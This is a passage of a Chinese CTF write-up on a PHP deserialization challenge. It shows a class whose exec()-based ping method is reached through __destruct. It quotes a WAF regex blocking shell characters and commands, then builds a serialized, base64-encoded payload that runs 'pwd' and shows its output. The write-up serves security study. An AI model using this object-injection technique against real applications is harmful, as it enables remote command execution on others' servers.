 [__wakeup](https://blog.spoock.com/2016/11/03/php-wakeup/)在对象反序列化时调用。这里的情况肯定会被调用，foreach遍历args数组，将值\$v放到waf中过滤后再传给键\$k。

ping使用exec直接把参数当做命令执行，输出命令的执行结果。__destruct调用了ping，因为if (in_array($this->method, array("ping")))要求method传入的必须是ping，那只有ping这一个选项了。[call_user_func_array](https://www.php.net/manual/zh/function.call-user-func-array.php)就是调用第一个参数的方法，把第二个参数作为调用方法的参数。这一段放一起看单纯就是调用ping而已。看了半天这题的难度在于绕waf。

waf的正则过滤了一些输出命令和文件名之类的，不是问题因为我们有经典的''绕过。最烦的是过滤了/符号，因此路径是个问题。先看看我们在哪，构造序列化字符串如下。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('pwd')));
echo urlencode(base64_encode(serialize($a)));
?>
```

post传参输出出来的内容。

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czozOiJwd2QiO319
  > array(1) {[0]=>string(13) "/var/www/html"}

